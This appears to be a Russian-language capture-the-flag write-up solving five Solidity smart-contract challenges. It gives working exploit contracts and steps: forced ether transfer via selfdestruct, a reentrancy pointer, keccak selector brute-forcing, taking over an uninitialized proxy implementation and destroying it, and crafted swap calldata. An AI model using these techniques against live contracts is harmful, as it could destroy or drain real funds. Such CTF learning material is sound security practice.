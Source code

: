 # 0. Unpayable
Задеплоим такой контракт:

```
contract Pay{
    receive() external payable{

    }
    function destroy(address payable addr) public{
        selfdestruct(addr);
    }
}
```
Пополним его баланс переводом на его адрес, потом вызовем `destroy(<адрес контракта Unpayable>)`

# 1. Bank
Типичный reentrancy, решение Ethernaut lvl 10 почти идеально [подходит](https://medium.com/coinmonks/ethernaut-lvl-10-re-entrancy-walkthrough-how-to-abuse-execution-ordering-and-reproduce-the-dao-7ec88b912c14) (отличается только имя одной функции)

# 2. MagicSequence
Нужно сбрутить 4 числа, такие, что старшие 4 байта хеша будут равны `[0xbeced095, 0x42a7b7dd, 0x45e010b9, 0xa86c339e]`:
```
from eth_hash.auto import keccak
for s in ["beced095", "42a7b7dd", "45e010b9", "a86c339e"]:
    for i in range(0xFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFFF):
        if keccak((i).to_bytes(32, byteorder="big")).hex()[:8]==s:
            print(i)
            break
```
Получаем числа `42, 55, 256, 9876543`. Деплоим следующий контракт и вызываем функцию `pwn(<адрес контракта задания>)`:
```
interface Magic{
      function start() public returns(bool);
}
contract Player{
    uint[] nums;
    uint pointer;
    constructor() public{
        nums.push(42);
        nums.push(55);
        nums.push(256);
        nums.push(9876543);
        pointer = 0;
    }
    function number() public returns(uint){
        return nums[pointer++];
    }
    function pwn(address addr) public{
        Magic(addr).start();
    }
}
```
# 3. Executor
Узнаем адрес Executor'а:
```
await web3.eth.getStorageAt(contract.address, "0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc")
```
Скомпилим Executor в remix(чтоб получить abi), прицепимся к контракту по полученому адресу и вызовем `initialize()`.

Задеплоим ещё один контракт:
```
contract Destroy{
    function exec() public{
        selfdestruct(address(0));
    }
}
```
И вызовем `execute(<адрес контракта Destroy>)` у Executor.

# 4. SecureSwap
Открываем контракт роутера на сканере, выбираем любую транзакцию `swapExactTokensFortokens` и смотрим input data:
MethodID | 0x38ed1739 | Селектор
------ | ------ | -----
0 | 0000000000000000000000000000000000000000000000004b13531ed51afd1f | amountIn
1 | 00000000000000000000000000000000000000000000000000000000001fd2ff | amountOutMin
2 | 00000000000000000000000000000000000000000000000000000000000000a0 | адрес начала массива
3 | 000000000000000000000000d491ab9b2f73348226a1618a01c6285d6a49b79f | to
4 | 00000000000000000000000000000000000000000000000000000000626170bc | deadline
5 | 0000000000000000000000000000000000000000000000000000000000000002 | длина массива
6 | 0000000000000000000000006bd193ee6d2104f14f94e2ca6efefae561a4334b | первый токен
7 | 000000000000000000000000e3f5a90f9cb311505cd691a46596599aa1a0ad7d | второй токен

Собираем все как нам нужно:
MethodID | 0x38ed1739 | Селектор
------ | ------ | -----
0 | 00000000000000000000000000000000000000000000000000038d7ea4c68000 | amountIn(количество WMOVR в Wei)
1 | 0000000000000000000000000000000000000000000000000000000000000001 | amountOutMin
2 | 00000000000000000000000000000000000000000000000000000000000000a0 | адрес начала массива
3 | 000000000000000000000000<contract.address> | to
4 | 00000000000000000000000000000000000000000000000000000000f26170bc | deadline (просто побольше)
5 | 0000000000000000000000000000000000000000000000000000000000000003 | длина массива
6 | 000000000000000000000000<WMOVR> | первый токен
7 | 000000000000000000000000<USDC> | второй токен
8 | 000000000000000000000000<DAI> | третий токен (просто адрес любого токена не из списка)
